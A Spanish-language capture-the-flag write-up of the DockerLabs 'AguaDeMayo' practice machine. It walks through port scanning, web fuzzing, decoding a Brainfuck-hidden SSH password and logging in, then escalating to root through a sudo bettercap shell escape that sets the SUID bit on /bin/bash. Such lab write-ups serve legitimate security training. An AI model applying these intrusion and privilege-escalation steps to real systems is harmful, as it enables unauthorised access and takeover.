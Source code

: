 ```yaml
---
title: AguaDeMayo
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2024-12-1
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-aguademayo/aguademayo_logo.png
categories:
  - Docker Labs
tags:
  - linux
  - dockerlabs
  - fuzzing web
  - data leaks
  - sudo abuse
  - suid
  - ssh
  - http
  - tcp
  - information gathering
  - web analysis
  - data leak exploitation
  - privilege escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/aguademayo:-$ ping -c 1 127.17.0.2
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.047 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.047/0.047/0.047/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/aguademayo:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG nmap1 127.17.0.2
Host: 127.17.0.2 ()	Status: Up
Host: 127.17.0.2 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///	Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/aguademayo:-$ sudo nmap -sCV -p22,80 -vvv -oN nmap2 127.17.0.2
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 75:ec:4d:36:12:93:58:82:7b:62:e3:52:91:70:83:70 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMRaeMl5HzP0PMKd1yfAOHuPCmNExZI/4DB9HSC9ziglgySQKRqzfbEbqD00WXMvvvDpN/94jzGTgYk8w7TNN4Q=
|   256 8f:d8:0f:2c:4b:3e:2b:d7:3c:a2:83:d3:6d:3f:76:aa (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOyI2THRG4Km6KNuoxG54FJksK4r+Dz2kw0+rBZcYhkC
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.59 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.59 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---
## Web Analysis & Data Leak Exploitation

La página web inicial parece ser una plantilla predeterminada de Apache.

![](/assets/img/dockerlabs-writeup-aguademayo/aguademayo1.png)

Durante el proceso de fuzzing, encuentro un subdirectorio accesible

```terminal
/home/kali/Documents/dockerlabs/aguademayo:-$ dirsearch -u http://127.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[14:13:33] 301 -  309B  - /images  ->  http://127.17.0.2/images/
```

Dentro de este directorio, hay una imagen con un nombre sospechoso, 'agua_ssh'.

![](/assets/img/dockerlabs-writeup-aguademayo/aguademayo2.png)

Otro elemento sospechoso, son una serie de caracteres al final del código fuente de la página principal normalmente no deberían estar presentes en una plantilla de Apache.

```terminal
/home/kali/Documents/dockerlabs/aguademayo:-$ curl 127.17.0.2
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
  <head>
	.
	.
	.
  </head>
  <body>
	.
	.
	.
  </body>
</html>

<!--
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
-->
```

Tras investigar, descubro que se trata de código escrito en un lenguaje llamado Brainfuck.

Si utilizo un decodificador para interpretar el código.

<https://www.dcode.fr/brainfuck-language>

El resultado es una cadena que parece ser una contraseña.

![](/assets/img/dockerlabs-writeup-aguademayo/aguademayo3.png)

Con estas credenciales 'agua:bebeaguaqueessano' puedo acceder al sistema vía SSH.

```terminal
/home/kali/Documents/dockerlabs/aguademayo:-$ ssh agua@127.17.0.2
agua@127.17.0.2's password: bebeaguaqueessano

agua@kali:~$ whoami
agua
```

---
## Privilege Escalation

Al iniciar sesión, verifico que el usuario actual pertenece al grupo 'lxd' y tiene un entorno de shell interactivo configurado.

```terminal
agua@kali:~$ id
uid=1000(agua) gid=1000(agua) groups=1000(agua),104(lxd)
```

El archivo '/etc/passwd' confirma que el usuario agua utiliza '/bin/bash' como shell por defecto.

```terminal
agua@kali:~$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
agua:x:1000:1000::/home/agua:/bin/bash
```

El usuario 'agua' tiene permisos para ejecutar el binario '/usr/bin/bettercap' como 'root' sin necesidad de proporcionar una contraseña.

```terminal
agua@kali:~$ sudo -l
```

![](/assets/img/dockerlabs-writeup-aguademayo/aguademayo4.png)

Al ejecutar 'sudo /usr/bin/bettercap', se abre el prompt interactivo de la herramienta. Desde allí, con el comando 'help', se pueden listar las funciones y comandos disponibles.

Una funcionalidad destacada de este entorno es que permite ejecutar comandos del sistema utilizando el símbolo '!'.

```terminal
agua@kali:~$ sudo /usr/bin/bettercap
```

![](/assets/img/dockerlabs-writeup-aguademayo/aguademayo5.png)

![](/assets/img/dockerlabs-writeup-aguademayo/aguademayo6.png)

Aprovechando esta característica, asigno el bit SUID al binario '/bin/bash'

Esto modifica los permisos del binario bash, permitiendo que cualquier usuario que lo ejecute obtenga privilegios de 'root'.

```terminal
agua@kali:~$ /bin/bash -p
bash-5.2# id
uid=1000(agua) gid=1000(agua) euid=0(root) egid=0(root) groups=0(root),104(lxd),1000(agua)
```
